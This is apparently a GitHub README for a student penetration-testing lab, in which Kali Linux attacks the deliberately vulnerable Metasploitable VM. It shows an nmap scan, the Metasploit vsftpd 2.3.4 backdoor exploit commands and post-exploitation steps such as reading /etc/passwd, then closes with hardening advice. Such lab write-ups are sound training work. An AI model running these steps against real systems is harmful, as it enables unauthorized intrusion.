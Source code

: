 # Penetration-Testing-Lab
Documentation and processes for setting up a penetration testing lab with Kali Linux and Metasploitable

Objective

The Penetration Testing Lab project aimed to establish a virtual environment for conducting controlled penetration tests using Kali Linux and Metasploitable. The primary focus was to identify, exploit, and analyze vulnerabilities within a simulated network environment. This hands-on experience provided practical skills in network security, vulnerability assessment, and exploitation, enhancing understanding of offensive and defensive cybersecurity techniques.

Skills Learned

Penetration Testing Fundamentals: Practical understanding of penetration testing methods and tools.
Network Scanning and Enumeration: Ability to identify open ports and running services on target machines.
Exploitation and Vulnerability Analysis: Proficiency in discovering and exploiting system vulnerabilities.
Security Recommendations: Developing strategies to improve system security based on identified vulnerabilities.
Documentation and Reporting: Learning to document findings and communicate them clearly.

Tools Used

Kali Linux: As the primary penetration testing operating system.
Metasploitable: A vulnerable virtual machine used as the target for exploitation.
Metasploit Framework: For exploiting vulnerabilities and conducting penetration tests.
Nmap: For network discovery and scanning open ports on the target.
Telnet: To remotely access the Metasploitable machine for further investigation.
Wireshark: For analyzing captured network traffic (optional, for deeper analysis).

Steps

1. Network Configuration
Objective: Set up the virtual network to allow communication between the Kali Linux (attacker) and Metasploitable (victim) virtual machines.
- Adapter Settings:
  - Kali Linux: Set Adapter 1 to Bridged Adapter and Adapter 2 to Internal Network.
  - Metasploitable: Set Adapter 1 to Bridged Adapter.
Screenshot:![adapter](https://github.com/user-attachments/assets/380a6380-76c1-4769-a751-b8b31f1f49d2)

 
2. Testing Network Connectivity
Objective: Verify network connectivity between Kali and Metasploitable by pinging the Metasploitable IP from Kali.
- Command:
  ```bash
  ping <Metasploitable IP>
  ```
Expected Result: Successful response from the Metasploitable IP, indicating connectivity.
Screenshot: ![establishing connection](https://github.com/user-attachments/assets/8572085e-15fa-45a8-9048-b1ee2f73c87a)

  Ping Response

3. Initial Nmap Scan
Objective: Identify open ports and services running on the Metasploitable machine.
- Command:
  ```bash
  nmap -sS -A <Metasploitable IP>
  ```
Expected Result: List of open ports and services, such as FTP, SSH, and Telnet, indicating potential entry points for exploitation.
Screenshot: ![nmap scanning](https://github.com/user-attachments/assets/c9d9d922-37b4-4378-92fe-19f98ea8c365)

 Nmap Results

4. Exploiting the vsftpd 2.3.4 Vulnerability
Objective: Use Metasploit to exploit a known vulnerability in the vsftpd service to gain access to the target.
- Command Sequence:
  ```bash
  msfconsole
  use exploit/unix/ftp/vsftpd_234_backdoor
  set RHOST <Metasploitable IP>
  exploit
  ```
Expected Result: A successful session indicating that access was gained via the vsftpd vulnerability.
Screenshot: ![msfconsole - exploit](https://github.com/user-attachments/assets/5449b9fa-7013-4f97-83d5-56a65e8e56b8)

  Metasploit Exploit

5. Checking Access Privileges
Objective: Verify access level on the Metasploitable system using `whoami`.
- Command:
  ```bash
  whoami
  ```
Expected Result: Display the username of the current session, confirming whether access was gained as `msfadmin` or `root`.
Screenshot:![whoami](https://github.com/user-attachments/assets/c39a6d06-7d36-45ad-9481-473b75a6e6fc)

  whoami Command

6. Listing User Accounts
Objective: Identify user accounts configured on the system to determine possible points of privilege escalation.
- Command:
  ```bash
  cat /etc/passwd
  ```
Expected Result: List of user accounts on the system.
Screenshot:![Listing User Accounts](https://github.com/user-attachments/assets/ccc0e846-36fe-471c-bd08-e52154368da6)

  User Accounts

7. Checking Running Services
Objective: Identify active services to look for additional potential vulnerabilities.
- Command:
  ```bash
  netstat -tuln
  ```
Expected Result: List of listening services and their respective ports.
Screenshot: ![tuln](https://github.com/user-attachments/assets/db57033e-7c3f-40a5-a3d0-74caf1629a5a)

  Running Services

8. Documenting Findings

1. Network Configuration and Connectivity

Network Setup: The virtual machines were set up with Kali Linux as the attacker machine and Metasploitable as the target machine.
Network Settings: Both machines were connected via an Internal Network to allow direct communication.
Connectivity Verification: The connection was verified by successfully pinging the Metasploitable machine from Kali.

2. Initial Nmap Scan Results

Objective: To enumerate open ports and services on the Metasploitable machine to identify potential entry points.
Scan Command:
nmap -sS -A <Metasploitable IP>
Findings:
- Open Ports: Ports 21 (FTP), 22 (SSH), 23 (Telnet), 25 (SMTP), and 80 (HTTP) were found open.
- Service Information: The scan identified various services, including vsftpd on port 21, which indicated a potentially vulnerable version (2.3.4).
- Vulnerable Services: The presence of vsftpd 2.3.4 was notable as it is known to have a backdoor vulnerability, making it a prime candidate for exploitation.

3. Exploitation of vsftpd Vulnerability

Exploit Used: vsftpd 2.3.4 backdoor exploit in Metasploit.
Command Sequence:
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable IP>
exploit
Outcome: After executing the exploit, a new session was opened, indicating successful access to the Metasploitable machine through the vsftpd backdoor.

4. Privilege Level and User Verification

Objective: Verify the access level achieved on the target system.
Verification Command:
whoami
Result: The command confirmed access as root, providing full privileges on the Metasploitable system.

5. Enumeration of User Accounts

Objective: Identify existing user accounts to assess privilege escalation opportunities and potential targets.
Command:
cat /etc/passwd
Result: The file /etc/passwd listed multiple users, including standard system accounts.

6. Running Services and Open Ports Analysis

Objective: Check for any services currently active on the machine, which could be used to expand the scope of penetration testing.
Command:
netstat -tuln
Findings: Displayed various open ports and services, which were reviewed for potential further exploitation.

7. Potential Vulnerabilities and Security Recommendations

Vulnerabilities Identified:
- FTP Service: The vsftpd 2.3.4 vulnerability provides unauthorized access via a backdoor.
- Telnet: Telnet is insecure as it transmits data in plain text.
Security Recommendations:
- Service Hardening: Disable unnecessary services like Telnet and FTP on production systems.
- Regular Updates: Keep services up-to-date to avoid known vulnerabilities.
- Access Control: Limit access to sensitive services and ports.
- Monitoring and Logging: Implement logging and alerting for unauthorized access attempts.
